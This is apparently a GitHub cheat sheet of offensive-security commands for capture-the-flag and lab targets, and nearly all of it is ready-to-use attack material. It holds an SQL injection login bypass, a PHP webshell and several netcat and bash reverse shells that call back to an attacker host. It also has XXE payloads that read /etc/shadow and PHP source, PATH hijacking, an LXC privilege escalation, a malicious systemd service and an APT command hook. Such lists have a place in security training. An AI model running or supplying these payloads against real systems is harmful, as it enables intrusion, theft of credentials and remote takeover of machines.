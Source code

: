 Commands for exploits
---

## SQL Injection

```
php sql injection
---
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";


EXPLOIT:
username = admin'#
```

## Jenkins RCE

Go "Mangage Jenkins" -> "Script Console"

```
def proc = "cat root/flag.txt".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

## WEBSHELLS

Upload these on the server

```
php
---
<?php echo system($_REQUEST['cmd']);?>

shell stabilization
---
python3 -c "import pty;pty.spawn('/bin/bash');"

```

## NC REVERSE SHELLS

General nc commands for reverse shells

```
nc listen on attacker
---
nc -lnvp <port>


nc commands on victim (URL encode pls)
---
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <addr> <port> >/tmp/f
rm -f /tmp/p; mknod /tmp/p p && nc <addr> <port> 0/tmp/p
bash -c 'bash -i >& /dev/tcp/<addr>/<port> 0>&1' <--best

```


## XML ATTACKS

```
LFI
---
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ac SYSTEM "file:///etc/shadow"> ]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>

reading php files
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>
```

## PYTHON ATTACKS

```
eval
---
you can chain eval commands with a comma

eval("25+1,print('hello!')"

os.system
---
inject commands with $()

$(ls)
```

## ENV BINARY INJECTION

```
create our own binary, and prepend to PATH
scripts will now look for our binary and execute it
---
echo "commands" > /home/user/binary_name

export PATH=/home/user:$PATH
```

## Website enumeration

- using burpsuite
- go to the website using the proxy
- go the HTTP traffic
- add the request to scope

## LXC

```
1. get the image and build it
---
https://github.com/saghul/lxd-alpine-builder

2. bring the image over to the victim
---
python3 -m http.server

3.  import the image
---
lxc image import ./alpine-v3.13-x86_64-20210506_2203.tar.gz --alias privesc

4. mount the image with privileges, and run it
---
lxc init privesc privcontainer -c security.privileged=true
lxc config device add privcontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start privcontainer
lxc exec privcontainer /bin/sh

```

## BAD SERVICE

```
/dev/shm/root.service
---
[Unit]
Description=pwned

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

[Install]
WantedBy=multi-user.target
---


systemctl enable /dev/shm/root.service
systemctl start root.service
```

## APT run comamnds

```
run commands after apt update
---
$ echo "APT::Update::Pre-Invoke {'whoami'};" > 00command
$ mv 00command /etc/apt/apt.conf.d/00command
```

